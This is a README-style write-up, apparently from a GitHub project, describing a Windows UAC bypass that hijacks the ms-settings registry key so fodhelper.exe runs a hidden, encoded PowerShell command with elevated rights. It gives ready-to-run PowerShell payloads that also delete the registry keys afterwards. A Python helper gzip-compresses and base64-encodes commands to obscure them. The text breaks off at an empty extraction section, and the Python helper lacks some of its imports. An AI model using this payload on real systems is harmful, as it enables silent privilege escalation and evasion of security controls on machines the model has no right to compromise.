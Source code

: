 # Theory

> Unlock hidden doors with trust as your key

### Vulnerability

fodhelper.exe itself does not execute registry keys per se; However, it reads certain registry keys to determine its behavior. By misusing the "ms-settings" key, we can potentially get fodhelper to run values within a key

fodhelper.exe is designed to run with elevated privileges without prompting the user with a uac

### Raw Payload

```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command"
reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f
reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f

fodhelper.exe

Start-Sleep -s 3
reg delete "HKCU\Software\Classes\.hacker\" /f
reg delete "HKCU\Software\Classes\ms-settings\" /f
```
or
```Powershell
$payload="powershell.exe -w h -NoP -NonI -Exec Bypass -enc $command";reg add "HKCU\Software\Classes\.hacker\Shell\Open\command" /d $payload /f;reg add "HKCU\Software\Classes\ms-settings\CurVer" /d ".hacker" /f;fodhelper.exe;Start-Sleep -s 3;reg delete "HKCU\Software\Classes\.hacker\" /f;reg delete "HKCU\Software\Classes\ms-settings\" /f;
```

### Encryption and Encode

<b>I know it's corny, but compression is a form of encryption</b>

We want to compress and encode this command to where powershell can decompress

Compression often generates unwanted characters, so we will also encode after compressing

```python
# Please forgive me, I hate leaving comments
# The code should speak for itself

import gzip

def compress_and_base64(input):
    # Convert string to bytes
    bytes = input.encode('utf-8')

    # Initialize buffer
    buffer = io.BytesIO()

    # Compress stream with gzip
    with gzip.GzipFile(fileobj=buffer, mode='wb') as file:
        file.write(bytes)

    # Save stream to variable
    compressed = buffer.getvalue()

    # Encode, so invisble characters are saved
    encoded = base64.b64encode(compressed)

    # Convert bytes to string
    return encoded.decode('utf-8')
```

<b>Extraction Method</b>

```powershell
